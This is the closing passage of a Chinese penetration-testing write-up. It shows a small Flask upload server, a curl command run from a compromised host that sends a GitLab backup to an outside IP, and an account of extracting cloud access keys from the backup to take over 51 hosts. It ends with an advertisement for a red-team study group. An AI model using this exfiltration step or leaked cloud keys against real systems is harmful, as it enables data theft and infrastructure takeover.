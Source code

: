     @app.route('/upload',methods=['POST'])  
    def upload_file():  
        file = request.files.get('file')  
        if file :  
            filename = file.filename  
            file.save(os.path.join(os.getcwd(),filename))  
            return f"File {filename} saved successfully"  
        else:  
            return "worry"  
      
      
    if  __name__ == '__main__':  
        app.run(host='0.0.0.0',debug=True,port=5000)

受控主机shell

    
    
    curl -X POST http://123.123.123.123:1111/upload -F file=@./a.gitlab_backup.tar

# 0x04 云沦陷(泄露AK SK)

几个G，下载漫长的很呢

然后拖到本地后应该就是gitlab的备份了，(因为他备份文件名字中带有gitlab的版本号)要用到对应的gitlab的相应版本去搭建，然后本地搭建导入备份后慢慢的寻找一些有用信息，后面突然发现一个叫application.yaml的文件
进行审计后泄露了ak和sk(这开发倒是备份挺明白的全部都写清清楚楚)

![]()

  
这个时候行云管家一把梭哈，因为权限很大，接管整个云了，总共是51台主机都拿下了

# 0x05 总结

思路就是 ：打点 -> JS文件断点调试 ->新突破上shell-> 解决困难-> 发现新大陆(本地搭建)->
接管云，最后全部打包好给了JF，也进行取证立A了，到此因为一个JS文件拿下整个云结束了，思路可以学习一波。

  *   * 

    
    
    文章来源：https://xz.aliyun.com/t/12698如有侵权，联系删除。

# 技术交流

### 知识星球

致力于红蓝对抗，实战攻防，星球不定时更新内外网攻防渗透技巧，以及最新学习研究成果等。常态化更新最新安全动态。专题更新奇技淫巧小Tips及实战案例。

涉及方向包括Web渗透、免杀绕过、内网攻防、代码审计、应急响应、云安全。星球中已发布 300+
安全资源，针对网络安全成员的普遍水平，并为星友提供了教程、工具、POC&EXP以及各种学习笔记等等。([点我了解详情](http://mp.weixin.qq.com/s?__biz=Mzg2ODYxMzY3OQ==&mid=2247496923&idx=1&sn=523f413df2d53de64fd48fbb081be790&chksm=ceab1f9bf9dc968da974eec5e34003d8a937884d2732fda7fac190360fd2a1a5290db090d8e9&scene=21#wechat_redirect))
